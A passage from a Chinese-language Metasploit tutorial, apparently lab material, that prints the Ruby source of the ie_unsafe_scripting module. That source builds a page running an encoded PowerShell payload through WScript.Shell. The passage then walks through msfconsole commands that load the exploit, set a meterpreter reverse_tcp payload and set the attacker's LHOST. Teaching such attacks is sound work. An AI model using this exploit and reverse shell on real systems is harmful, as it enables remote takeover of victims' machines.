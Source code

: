 ```
...
...
...
  # 构建的 javaScript 其中一部分
  def psh_technique(var_shellobj, p)
    cmd = Rex::Text.to_hex(cmd_psh_payload(payload.encoded, payload_instance.arch.first))
    js_content = %Q|
<html><head></head><body><script>

# 实例化 ActiveXObject 对象，启用并返回 Automation 对象的引用
var #{var_shellobj} = new ActiveXObject("WScript.Shell");

# 运行 run 函数进行 cmd 命令操作
#{var_shellobj}.run(unescape("#{cmd}"), 1, true);
</script></html>
|
    js_content
  end
```
### 4.2 使用 Metasploit 进行攻击

在解释了攻击模块 `ie_unsafe_scripting` 的关键部分源码之后，我们使用 `ie_unsafe_scripting` 模块进行攻击。首先在 `Msfconsole` 中使用 `use` 命令使用漏洞攻击模块：
```
# 使用已经集成的攻击模块
msf > use exploit/windows/browser/ie_unsafe_scripting
```
![图片描述](../imgs/1483608451092.png-wm.png)

接着使用 `set` 命令设置攻击载荷，并使用 `show options` 命令参数查看需要填写的选项，最后使用 `set` 命令设置攻击机的 IP 地址：
```
# 设置攻击的载荷
msf > set payload windows/meterpreter/reverse_tcp

# 查看参数信息
msf > show options

# 设置主机 IP 地址
msf > set LHOST 192.168.122.101
```
![图片描述](../imgs/1483610486105.png-wm.png)
